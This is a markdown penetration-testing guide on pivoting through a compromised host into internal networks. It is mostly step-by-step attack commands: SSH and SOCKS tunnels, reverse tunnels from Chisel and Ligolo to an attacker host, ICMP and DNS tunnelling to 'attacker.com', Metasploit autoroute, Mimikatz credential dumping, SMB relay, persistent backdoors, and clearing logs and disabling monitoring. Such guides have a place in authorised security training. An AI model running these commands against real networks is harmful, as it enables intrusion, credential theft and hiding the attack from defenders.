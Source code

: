 # Pivoting in Penetration Testing

## Introduction
Pivoting is a crucial technique in penetration testing that allows an attacker to use a compromised system as a bridge to access an otherwise restricted network. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources.

## Types of Pivoting
1. **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
2. **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
3. **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
4. **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
5. **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
6. **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
7. **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
8. **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
9. **ICMP Tunneling** - Encapsulating data within ICMP packets.
10. **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

## Step-by-Step Guide to Pivoting

1. ### Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.

2. ### Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```

  Identify internal IP ranges that may indicate private networks.

3. ### Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).

4. ### Establish Pivoting
    - #### SSH Tunneling (Dynamic and Local Port Forwarding)
        - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
        - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
        - Then use ProxyChains
            - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
            - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
    - #### Chisel (Fast TCP/UDP Tunneling)
        - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
        - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
        - Use ProxyChains with Chisel for further tunneling.
    - #### Ligolo (Auto Route Creation)
        - Setup network configuration
          ```bash
              ip tuntap add user root mode tun ligolo
              ip link set ligolo up
          ```
        - On attacker's machine: `./ligolo -reverse -listen :9090`
        - On compromised machine: `./ligolo -connect attacker-ip:9090`
        - Type on proxy
          ```bash
          session
          start
          ifconfig
          ```
        - Configure Internal IP with proper IP (Replace given IP with targets internal ip)
           ```bash
           ip route add 192.168.148.0/24 dev ligolo
           ip route list
           ```
          
    - #### Metasploit Pivoting
        - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
        - Use socks4a module to enable ProxyChains:
          ```bash
          use auxiliary/server/socks4a
          set SRVPORT 1080
          exploit
          ```
    - #### SSHuttle Pivoting
        - Transparently route traffic through an SSH connection: `sshuttle -r user@compromised-host 10.10.0.0/24`
    - #### Plink (PuTTY Link) Pivoting
        - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
    - #### RDP Pivoting
        - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
    - #### ICMP Tunneling
        - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
    - #### DNS Tunneling
        - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`
  
5. ### Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

6. ### Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

7. ### Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.

## Conclusion
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively.

